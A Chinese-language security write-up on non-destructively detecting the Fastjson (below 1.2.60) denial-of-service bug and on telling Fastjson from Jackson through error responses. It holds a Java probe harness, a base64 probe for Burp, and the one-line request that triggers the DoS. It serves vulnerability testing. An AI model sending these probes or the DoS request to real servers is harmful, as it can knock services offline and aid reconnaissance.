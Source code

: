 Fastjson \<=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分
============================================================

一、漏洞简介
------------

二、漏洞影响
------------

Fastjson 1.2.60 以下版本

三、复现过程
------------

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS
的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS
类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId25.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{\"name\":\"S\", \"age\":21}

追加一个随机 key ,修改 json 为

{\"name\":\"S\", \"age\":21,\"agsbdkjada\_\_ss\_d\":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean
属性对齐,只能少不能多 key,所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId27.png)

Jackson：

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId28.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson \< 1.2.60 在取不到值的时候会填充 \\u001a ,在1.2.60 进行了修复, 对 \\x 后面的字符进行是否为16进制允许字符
(0-9a-fA-F) 的校验,所以这里就可以手动 padding ,构造一个特殊的字符串

\\x\\u001a\\u001a

测试代码:

Main.java

    import com.alibaba.fastjson.JSON;

    public class Main {
        public static void main(String[] args) {
            String payload = "{\"a\":\"\\x\u001a\u001a\"}";
            System.out.println(payload);
            Object o = JSON.parseObject(payload);
            System.out.println(o.getClass());
        }
    }

Fastjson \< 1.2.60

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.59</version>
        </dependency>
    </dependencies>

    </project>

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId30.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.60</version>
        </dependency>
    </dependencies>

    </project>

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId31.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId33.png)

使用 {\"a:\"\\x 进行请求就会发生 DOS

![](./resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId34.png)

四、参考链接
------------

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/
